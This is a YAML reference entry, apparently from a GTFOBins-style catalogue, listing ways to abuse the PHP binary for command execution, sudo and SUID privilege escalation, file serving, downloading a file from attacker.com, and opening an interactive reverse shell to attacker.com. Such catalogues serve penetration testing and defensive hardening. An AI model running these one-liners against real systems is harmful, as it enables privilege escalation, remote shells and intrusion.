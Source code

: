 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        export CMD="id"
        php -r 'system(getenv("CMD"));'
    - code: |
        export CMD="id"
        php -r 'passthru(getenv("CMD"));'
    - code: |
        export CMD="id"
        php -r 'print(shell_exec(getenv("CMD")));'
    - code: |
        export CMD="id"
        php -r '$r=array(); exec(getenv("CMD"), $r); print(join(\"\\n\",$r));'
    - code: |
        export CMD="id"
        php -r '$h=@popen(getenv("CMD"),"r"); if($h){ while(!feof($h)) echo(fread($h,4096)); pclose($h); }'
    - code: |
        export CMD="id"
        php -r '$p = array(array("pipe","r"),array("pipe","w"),array("pipe", "w"));$h = @proc_open(getenv("CMD"), $p, $pipes);if($h&&$pipes){while(!feof($pipes[1])) echo(fread($pipes[1],4096));while(!feof($pipes[2])) echo(fread($pipes[2],4096));fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($h);}'
  sudo-enabled:
    - code: |
        CMD="id"
        sudo php -r "system('$CMD');"
  suid-enabled:
    - code: |
        CMD="id"
        ./php -r "system('$CMD');"
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LHOST=0.0.0.0
        LPORT=8888
        php -S $LHOST:$LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        php -r '$c=file_get_contents(getenv("URL"));file_put_contents(getenv("LFILE"), $c);'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
---
```

